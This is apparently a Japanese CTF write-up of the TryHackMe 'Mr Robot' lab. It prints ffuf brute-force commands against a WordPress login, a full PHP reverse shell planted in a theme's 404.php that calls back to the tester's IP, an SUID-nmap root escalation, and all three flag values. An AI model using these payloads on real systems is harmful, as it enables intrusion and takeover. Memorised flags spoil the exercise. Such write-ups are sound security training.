







┌──(rkametani㉿rkametani-1-kalija)-[~]
└─$ nmap 10.48.189.70 -p- -sCV -T4
Starting Nmap 7.99 ( https://nmap.org ) at 2026-05-27 14:22 +0900
Nmap scan report for 10.48.189.70
Host is up (0.13s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 b8:8d:4a:90:14:af:d7:42:a0:ae:d0:7e:e6:bb:d4:01 (RSA)
| 256 f0:c3:8a:ae:dc:65:92:bd:0f:75:ad:11:b3:14:d0:2b (ECDSA)
|_ 256 59:27:55:47:3d:1a:2c:a3:15:ee:2b:90:44:36:12:e7 (ED25519)
80/tcp open http Apache httpd
|_http-title: Site doesn't have a title (text/html).
443/tcp open ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after: 2025-09-13T10:45:03
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 178.26 seconds
webページとsshのシンプルな構成
whoismrrobot.com

コマンドをうつと画像が出るのでそれを解析できそう
feroxbusterも回して見たところ数十個ヒットした

ふと思い出してrobots.txtをみたところ情報が落ちていた

fsocity.dicとkey-1-of-3.txt
wpscanの結果バージョンは4.3.1であると特定
wpscanの結果を貼っておく
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrRobot]
└─$ wpscan --url http://10.48.163.213
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.8.28
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[i] Updating the Database ...
[i] Update completed.
[+] URL: http://10.48.163.213/ [10.48.163.213]
[+] Started: Wed May 27 15:10:34 2026
Interesting Finding(s):
[+] Headers
| Interesting Entries:
| - Server: Apache
| - X-Mod-Pagespeed: 1.9.32.3-4523
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] robots.txt found: http://10.48.163.213/robots.txt
| Found By: Robots Txt (Aggressive Detection)
| Confidence: 100%
[+] XML-RPC seems to be enabled: http://10.48.163.213/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
| - http://codex.wordpress.org/XML-RPC_Pingback_API
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
| - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
[+] The external WP-Cron seems to be enabled: http://10.48.163.213/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
| - https://www.iplocation.net/defend-wordpress-from-ddos
| - https://github.com/wpscanteam/wpscan/issues/1299
[+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
| Found By: Emoji Settings (Passive Detection)
| - http://10.48.163.213/610578d.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
| Confirmed By: Meta Generator (Passive Detection)
| - http://10.48.163.213/610578d.html, Match: 'WordPress 4.3.1'
[+] WordPress theme in use: twentyfifteen
| Location: http://10.48.163.213/wp-content/themes/twentyfifteen/
| Latest Version: 4.2
| Last Updated: 2026-05-20T00:00:00.000Z
| Readme: http://10.48.163.213/wp-content/themes/twentyfifteen/readme.txt
| Style URL: http://10.48.163.213/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
|
| Found By: Css Style In 404 Page (Passive Detection)
|
| The version could not be determined.
[+] Enumerating All Plugins (via Passive Methods)
[i] No plugins Found.
[+] Enumerating Config Backups (via Passive and Aggressive Methods)
Checking Config Backups - Time: 00:09:53 <=================> (137 / 137) 100.00% Time: 00:09:53
[i] No Config Backups Found.
[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
[+] Finished: Wed May 27 15:31:28 2026
[+] Requests Done: 190
[+] Cached Requests: 5
[+] Data Sent: 55.469 KB
[+] Data Received: 23.425 MB
[+] Memory used: 261.746 MB
[+] Elapsed time: 00:20:53
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrRobot]
└─$
feroxの結果から（まだ途中だけど）
/admin/robotっていうのが怪しいと思ったのでアクセスしたらrobot.gzをDLさせられた
まずgunzipしようとしたら違うファイルだった
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$ gunzip robot.gz
gzip: robot.gz: not in gzip format
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$ file robot.gz
robot.gz: bzip2 compressed data, block size = 900k
つぎにbunzip2したらtarアーカイブが出てきた
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$ bunzip2 robot.gz
bunzip2: Can't guess original name for robot.gz -- using robot.gz.out
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$ ls
fsociety inform join prepare question robot.gz.out wakeup
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$ file robot.gz.out
robot.gz.out: POSIX tar archive (GNU)
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$
tarを展開したらhtmlサイトのセットが出てきた
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$ tar -xf robot.gz.out
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$ ls
fsociety inform join prepare question robot.com robot.gz.out wakeup
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$ ls robot.com
audio css images index.html intro.webm js robots.txt video
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$ cd robot.com
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot/robot.com]
└─$ cat robots.txt
# robotstxt.org/
User-agent: *
Disallow:
中を見るとhttp://[target ip]でアクセスしたときに見れる画像たちが入っているようだ
さっき得た/fsocity.dicに入るとワードリストを得た
/key-1-of-3.txtに入ると073403c8a58a1f80d943455fb30724b9を得た
これ何文字？32文字らしい
ってことはmd5で
これをjohnで解析？
ワードリストにさっきのやつを使う
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$ john hash.txt --wordlist=fsocity.dic --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 512/512 AVX512BW 16x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2026-05-27 15:52) 0g/s 12258Kp/s 12258Kc/s 12258KC/s 8output..ABCDEFGHIJKLMNOPQRSTUVWXYZ
Session completed.
なんかいろいろ調べてたら
これが答えの1個目だった
つぎに`/wp-login.php'にアクセスした

admin:adminではusernameが違うとのエラーが出た
存在するusernameを入れたら違うエラー文言が出そうだ
/fsocity.dicに入っていたデータをワードリストとしてffufした
パスワードはtestで固定している
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$ ffuf -u http://10.48.163.213/wp-login.php -X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-b "wordpress_test_cookie=WP Cookie check" \
-d "log=FUZZ&pwd=test&wp-submit=Log+In&testcookie=1" \
-w fsocity.unique.dic \
-mr "password you entered" \
-t 40 -timeout 15
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : POST
:: URL : http://10.48.163.213/wp-login.php
:: Wordlist : FUZZ: /home/rkametani/tryhackme/mrrobot/fsocity.unique.dic
:: Header : Content-Type: application/x-www-form-urlencoded
:: Header : Cookie: wordpress_test_cookie=WP Cookie check
:: Data : log=FUZZ&pwd=test&wp-submit=Log+In&testcookie=1
:: Follow redirects : false
:: Calibration : false
:: Timeout : 15
:: Threads : 40
:: Matcher : Regexp: password you entered
________________________________________________
ELLIOT [Status: 200, Size: 3651, Words: 144, Lines: 59, Duration: 283ms]
Elliot [Status: 200, Size: 3651, Words: 144, Lines: 59, Duration: 303ms]
elliot [Status: 200, Size: 3651, Words: 144, Lines: 59, Duration: 360ms]
:: Progress: [11451/11451] :: Job [1/1] :: 125 req/sec :: Duration: [0:01:28] :: Errors: 0 ::
ELLIOT,Elliot,elliotのときに普段と異なるエラーが出た
つぎはusernameをelliotに固定してパスワードを探す
ワードリストは/fsocity.dicから得たワードリストを指定する
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$ ffuf -u http://10.48.163.213/wp-login.php -X POST \
-H "Content-Type: application/x-www-form-urlencoded" \
-b "wordpress_test_cookie=WP Cookie check" \
-d "log=elliot&pwd=FUZZ&wp-submit=Log+In&testcookie=1" \
-w fsocity.unique.dic \
-fr "password you entered" \
-t 40 -timeout 15
/'___\ /'___\ /'___\
/\ \__/ /\ \__/ __ __ /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\ \ \_\ \ \____/ \ \_\
\/_/ \/_/ \/___/ \/_/
v2.1.0-dev
________________________________________________
:: Method : POST
:: URL : http://10.48.163.213/wp-login.php
:: Wordlist : FUZZ: /home/rkametani/tryhackme/mrrobot/fsocity.unique.dic
:: Header : Content-Type: application/x-www-form-urlencoded
:: Header : Cookie: wordpress_test_cookie=WP Cookie check
:: Data : log=elliot&pwd=FUZZ&wp-submit=Log+In&testcookie=1
:: Follow redirects : false
:: Calibration : false
:: Timeout : 15
:: Threads : 40
:: Matcher : Response status: 200-299,301,302,307,401,403,405,500
:: Filter : Regexp: password you entered
________________________________________________
ER28-0652 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 335ms]
:: Progress: [11451/11451] :: Job [1/1] :: 121 req/sec :: Duration: [0:01:35] :: Errors: 0 ::
ER28-0652がヒットした

ログインに成功した
つぎのような画像ファイルを見つけた

Dylan_2791を見つけたファイル名は
72B3PJhだ
つぎにappearance -> editorからphpファイルが編集できたので
404.phpやfooter.phpなどのファイルを編集してみた

ここに任意シェルを打ちたい
一応元の404.phpを残しておく
<?php
/**
* The template for displaying 404 pages (not found)
*
* @package WordPress
* @subpackage Twenty_Fifteen
* @since Twenty Fifteen 1.0
*/
get_header(); ?>
<div id="primary" class="content-area">
<main id="main" class="site-main" role="main">
<section class="error-404 not-found">
<header class="page-header">
<h1 class="page-title"><?php _e( 'Oooooooooops! That page can’t be found.', 'twentyfifteen' ); ?></h1>
</header><!-- .page-header -->
<div class="page-content">
<p><?php _e( 'It looks like nothing was found at this location. Maybe try a search?', 'twentyfifteen' ); ?></p>
<?php get_search_form(); ?>
</div><!-- .page-content -->
</section><!-- .error-404 -->
</main><!-- .site-main -->
</div><!-- .content-area -->
<?php get_footer(); ?>
これをrevshell.comで作成したphpに変更する
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.205.211';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; bash -i';
$daemon = 0;
$debug = 0;
if (function_exists('pcntl_fork')) {
$pid = pcntl_fork();
if ($pid == -1) {
printit("ERROR: Can't fork");
exit(1);
}
if ($pid) {
exit(0); // Parent exits
}
if (posix_setsid() == -1) {
printit("Error: Can't setsid()");
exit(1);
}
$daemon = 1;
} else {
printit("WARNING: Failed to daemonise. This is quite common and not fatal.");
}
chdir("/");
umask(0);
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
printit("$errstr ($errno)");
exit(1);
}
$descriptorspec = array(
0 => array("pipe", "r"), // stdin is a pipe that the child will read from
1 => array("pipe", "w"), // stdout is a pipe that the child will write to
2 => array("pipe", "w") // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
printit("ERROR: Can't spawn shell");
exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
if (feof($sock)) {
printit("ERROR: Shell connection terminated");
break;
}
if (feof($pipes[1])) {
printit("ERROR: Shell process terminated");
break;
}
$read_a = array($sock, $pipes[1], $pipes[2]);
$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
if (in_array($sock, $read_a)) {
if ($debug) printit("SOCK READ");
$input = fread($sock, $chunk_size);
if ($debug) printit("SOCK: $input");
fwrite($pipes[0], $input);
}
if (in_array($pipes[1], $read_a)) {
if ($debug) printit("STDOUT READ");
$input = fread($pipes[1], $chunk_size);
if ($debug) printit("STDOUT: $input");
fwrite($sock, $input);
}
if (in_array($pipes[2], $read_a)) {
if ($debug) printit("STDERR READ");
$input = fread($pipes[2], $chunk_size);
if ($debug) printit("STDERR: $input");
fwrite($sock, $input);
}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit ($string) {
if (!$daemon) {
print "$string\n";
}
}
?>
うまくいった
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.205.211] from (UNKNOWN) [10.48.169.47] 60004
Linux ip-10-48-169-47 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
00:02:42 up 40 min, 0 users, load average: 0.20, 0.55, 0.41
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
bash: cannot set terminal process group (6488): Inappropriate ioctl for device
bash: no job control in this shell
daemon@ip-10-48-169-47:/$ pwd
pwd
/
daemon@ip-10-48-169-47:/$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
入れたがflagを見る権限がない
daemon@ip-10-48-169-47:/$ find / -name key-*-of-3.txt 2>/dev/null
find / -name key-*-of-3.txt 2>/dev/null
/opt/bitnami/apps/wordpress/htdocs/key-1-of-3.txt
/home/robot/key-2-of-3.txt
daemon@ip-10-48-169-47:/$ cat /home/robot/key-2-of-3.txt
cat /home/robot/key-2-of-3.txt
cat: /home/robot/key-2-of-3.txt: Permission denied
daemon@ip-10-48-169-47:/$
しかし
daemon@ip-10-48-169-47:/$ ls /home
ls /home
robot
ubuntu
daemon@ip-10-48-169-47:/$
robotとubuntuというユーザーの存在を見つけた
sshログイン試行してみる
┌──(rkametani㉿rkametani-1-kalija)-[~/tryhackme/mrrobot]
└─$ ssh robot@10.48.169.47
The authenticity of host '10.48.169.47 (10.48.169.47)' can't be established.
ED25519 key fingerprint is: SHA256:2L45IgzWFbT9Xf8lPZ+yMxT4KfcGcCEIaokbWu9iMi8
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.48.169.47' (ED25519) to the list of known hosts.
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
robot@10.48.169.47's password:
Permission denied, please try again.
robot@10.48.169.47's password:
Permission denied, please try again.
robot@10.48.169.47's password:
失敗した失敗した失敗した
daemonに戻ってSUIDがついてるやつがいないか探す
daemon@ip-10-48-169-47:/$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/umount
/bin/mount
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
daemon@ip-10-48-169-47:/$
nmapってroot権限とか絡む話あるっけ？
ということでGTOBinsに行ってみる
--interactiveでコマンドが打てるようになるらしい
daemon@ip-10-48-141-220:/$ /usr/local/bin/nmap
/usr/local/bin/nmap
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !/bin/sh
sh: 1: !/bin/sh: not found
nmap> !sh
pwd
/
id
uid=0(root) gid=0(root) groups=0(root),1(daemon)
入れた
cd /home/robot
pwd
/home/robot
ls
key-2-of-3.txt
password.raw-md5
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
2つ目のflagをゲットした
もう１つのファイルのpassword.raw-md5は
robot:c3fcd3d76192e4007dfb496cca67e13b
という中身でありこれはcrackstationにかけると
abcdefghijklmnopqrstuvwxyzをmd5エンコードしたものであった
てか、ん？
なんかおかしいな
もうroot入れてるのにrobotのクレデンシャル？
いったんssh接続試みる
$ id
uid=1002(robot) gid=1002(robot) groups=1002(robot)
$
入れた
けどこれ順番前後しちゃった
本来はここでSUID検索してdaemon->robot->rootの権限昇格だったはずが
daemon->rootしてしまった
ls -la /home/robot
total 16
drwxr-xr-x 2 root root 4096 Nov 13 2015 .
drwxr-xr-x 4 root root 4096 Jun 2 2025 ..
-r-------- 1 robot robot 33 Nov 13 2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13 2015 password.raw-md5
その証拠にpassword.raw-md5はdaemonでも見れるようになっている
ということでrootのシェルに戻り/rootを探す
whoami
root
cd /root
ls
firstboot_done
key-3-of-3.txt
cat firstboot_done
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
おわり